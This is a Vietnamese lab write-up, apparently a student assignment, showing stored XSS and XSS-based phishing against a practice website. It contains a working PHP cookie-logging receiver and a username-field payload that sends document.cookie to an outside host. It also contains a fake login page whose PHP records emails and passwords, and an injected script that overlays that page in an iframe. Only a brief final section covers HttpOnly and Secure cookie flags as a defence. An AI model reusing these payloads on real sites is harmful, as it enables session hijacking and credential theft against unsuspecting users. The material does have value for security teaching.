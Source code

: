 Người thực hiện: Lê Trần Văn Chương
Ngày: 12/04/2022
Mục lục:
- [Host](#host)
- [XSS](#xss)
- [Phishing XSS](#phishing-xss)
- [HttpFlag và secure cho cookie](#httpflag-và-secure-cho-cookie)

## Host
- Host nhận cookie người dùng: https://php-bacsic.000webhostapp.com/index.php
- Host để attack: https://00bluec10.000webhostapp.com/index.php

## XSS

1. Thêm đoạn code sau vào host nhận cookie. Đoạn code này sẽ lấy cookie và ghi vào file `logs.txt`.

```php
<?php
$cookie = $_GET["cookie"];
$file = fopen('logs.txt', 'a');
fwrite($file, $cookie . "\n\n");
?>
```

2. Thêm `<a onmouseover=\"document.location=\'https://php-bacsic.000webhostapp.com/index.php?c=\'+escape\(document.cookie\)\;\">XSSError</a>` vào username và khi người dùng vào web và rê chuột vào chữ `XSSError` thì lực tức sẽ được chuyển qua trang host để lấy cookie người.
![Hinh 1.](~/../img/1.png)

3. Kiểm tra lại file `logs.txt`
![Hinh 2.](~/../img/2.png)


## Phishing XSS

1. Tạo 1 trang login giả để chèn vào web attack đây là link: https://php-bacsic.000webhostapp.com/fakeLogin.php
![Hinh 3.](~/../img/3.png)

2. Trong trang đó ta chèn thêm vài dòng code php để có thể lấy dữ liệu người dùng và sau khi user nhấn vào login thì trả về index.
```php
<?php
if (isset($_POST['email'], $_POST['password'])) {
    $fp = fopen("logs.txt", 'a+');
    fwrite($fp, $_POST['email'] . ':' . $_POST['password'] . "\n");
    fclose($fp);
    exit('<script>window.open("https://00bluec10.000webhostapp.com/index.php","_top");</script>');
}
?>
```

3. Chèn đoạn script này vào username. Để sau này khi user vào trang `https://00bluec10.000webhostapp.com/index.php` thì sẽ tự động cho user login trước.
```javascript
<script>
var obj = document.getElementsByTagName('body')[0];
obj.style="overflow:hidden;";
obj.innerHTML="<iframe src='https://php-bacsic.000webhostapp.com/fakeLogin.php' style='overflow:hidden;border:none;width:100%;height:1000px'></iframe>";
</script>
```

4. Sau khi user login thì chúng ta sẽ lấy được data từ user đó. Đây là dữ liệu lấy được
![Hinh 4.](~/../img/4.png)

## HttpFlag và secure cho cookie
```php
<?php
setcookie('username', 'test', ['httponly' => true, 'secure' => true]);
?>
```